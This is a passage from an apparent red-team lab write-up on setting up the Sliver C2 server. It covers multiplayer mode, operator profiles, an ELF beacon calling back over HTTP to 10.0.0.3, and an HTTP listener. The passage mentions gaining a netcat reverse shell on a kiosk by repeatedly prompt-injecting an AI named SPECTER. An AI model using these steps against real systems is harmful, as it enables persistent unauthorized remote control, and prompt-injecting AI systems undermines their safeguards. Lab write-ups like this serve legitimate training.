 - Then we start multiplayer mode in the C2 server to allow multiple operators to connect:
    
    ```bash
    [server] sliver > multiplayer
    ```
    
- I don’t think it matters where you create the Operator profiles but I did it in the sliver-server. We need to create a profile for each RTO:
    
    ```bash
    [server] sliver > new-operator --name soulis --lhost 127.0.0.1
    ```
    
- For other operators enter your machines IP where the server is being hosted on:
    
    ```bash
    [server] sliver > new-operator --name rto2 --lhost 10.0.0.3
    ```
    
- Once the configuration file is generated the RTO’s need to import it to their sliver-client running on their machine:
    
    ```bash
    $ ./sliver-client import ./soulis_example.com.cfg
    $ ./sliver-client import ./rto1_example.com.cfg
    ```
    
- Now we should see a message on the sliver server notifying us that an operator has connected.
- The heart of C2 servers generating a beacon:
    
    ```bash
    generate --os linux --arch amd64 --format elf --http http://10.0.0.3:80
    ```
    
    - This actually takes a few minutes so just give it some time
    - You would also generate a beacon for your other Red Team Operators so you have multiple machines this can all be done on the server.
    - The other operators will be able to view the sessions since they are connected to your server.
- We need to have an initial foothold on the system to upload these beacons to the target.
- Currently we have access to the KIOSK using a netcat session which is considered to be an unstable connection.
- By using beacons we will have a more reliable connection and do not have to keep performing prompt injection to the SPECTER AI to get a reverse shell. We can simply connect to the beacon instead.
- Dont be like me. I recommend you read the documentation I forgot to setup a listener on the sliver-client so I was just sitting there for a few minutes waiting for the beacon to connect back to me.
- Setting up a listener. Since our beacond uses an http connection we setup an http listener:
    
    ```bash
    [client] sliver > http
    ```
    
    - If you are confused on what the commands do enter help
    
    ```bash
    [client] sliver > help
    ```
    